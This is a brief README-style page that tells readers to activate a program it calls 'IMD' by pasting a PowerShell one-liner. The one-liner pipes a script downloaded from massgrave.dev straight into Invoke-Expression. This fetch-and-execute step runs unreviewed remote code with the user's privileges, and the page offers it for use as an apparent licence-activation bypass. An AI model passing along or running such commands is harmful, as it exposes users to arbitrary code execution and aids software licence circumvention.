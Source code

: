 # Activation of IMD using PowerShell



## Instructions:

1. Open PowerShell.
2. Run the following command: 

```
   irm https://massgrave.dev/ias | iex
```
<p align="center">
  <img src="image.png" alt="PowerShell Logo">
</p>

3. The activation command will be executed, and any relevant output will be displayed.


<p align="center">
<img src="image2.png" alt="Command Output">
</p>

